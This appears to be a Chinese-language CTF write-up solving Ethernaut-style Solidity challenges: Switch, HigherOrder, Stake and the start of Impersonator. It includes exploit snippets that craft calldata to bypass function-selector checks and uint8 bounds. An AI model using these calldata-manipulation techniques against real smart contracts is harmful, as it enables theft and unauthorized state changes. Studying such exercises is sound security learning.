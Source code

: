 ## 29. Switch ✅[Easy]

我的思路是直接调用flipSwitch，传入的参数是把bytes4(keccak256("turnSwitchOff()"))放在低次位的四个字节上
```solidity
function attack() public {
        // 构造 _data：
        // 前 4 字节是 turnSwitchOn 的选择器
        // 第 68-72 字节是 turnSwitchOff 的选择器
        bytes memory data = abi.encodeWithSelector(
            target.turnSwitchOn.selector // 实际调用 turnSwitchOn
        );

        // 在第 68-72 字节插入 turnSwitchOff 的选择器
        assembly {
            mstore(add(data, 0x44), shl(224, 0x9c60e39d)) // turnSwitchOff selector
        }

        // 调用 flipSwitch，触发目标逻辑
        target.flipSwitch(data);
}
```

## 30. HigherOrder ✅[Hard]

这关主要考察calldata的理解，在 Solidity 中，calldata 是函数调用时发送给合约的一段原始数据，包含以下结构：
函数选择器（前 4 字节）：决定调用哪个函数。
参数数据：紧跟选择器之后，包含函数的输入参数。
例如，对于 registerTreasury(uint8)，正常的 calldata 结构是：

[ 函数选择器 (4字节) ][ 参数 (32字节，实际是 uint8 范围内的值) ]

但由于 assembly 直接读取了第 4 字节以后的 32 字节 数据，整个参数范围被扩大了。可以通过手动构造 calldata 来传递超过 uint8 范围的值。

```solidity
// 手动发送 calldata，绕过 uint8 限制
bytes memory payload = abi.encodeWithSignature("registerTreasury(uint8)", uint256(256));
(bool success, ) = address(target).call(payload);
require(success, "Failed to register treasury");
```

## 31. Stake ✅[Medium]

思路:
攻击StakeWETH，因为WETH可以自己实现，并且这里的call直接去执行WETH的approve方法和transferfrom方法，我可以满足它的检测bytesToUint满足，然后不转入，但是还是加了amount，所以我可以满足题意

## 32. impersonator ✅[Hard]

思路：
这个看了很久，首先确定ecrecover 是以太坊内置函数，用于从签名中恢复签名者的地址。
note：它的主要用途是验证一条消息是否由某个以太坊地址持有的私钥签名。通过 ecrecover，我们可以验证签名者的身份，而不需要直接访问私钥。
然后确定除了lock的constructor部分外其他都没啥问题，于是仔细研究constructor
```solidity
bytes32 _msgHash;
assembly {
    mstore(0x00, "\x19Ethereum Signed Message:\n32") // 28 bytes
    mstore(0x1C, _lockId) // 32 bytes
    _msgHash := keccak256(0x00, 0x3c) //28 + 32 = 60 bytes
}
msgHash = _msgHash;
``` 
生成一个哈希值（msgHash），用作签名验证的基础。将固定前缀 "\x19Ethereum Signed Message:\n32" 存入内存起始位置 0x00。这是以太坊的 EIP-191 标准，要求在签名前加前缀，防止重放攻击。
```solidity
address initialController = address(1);
```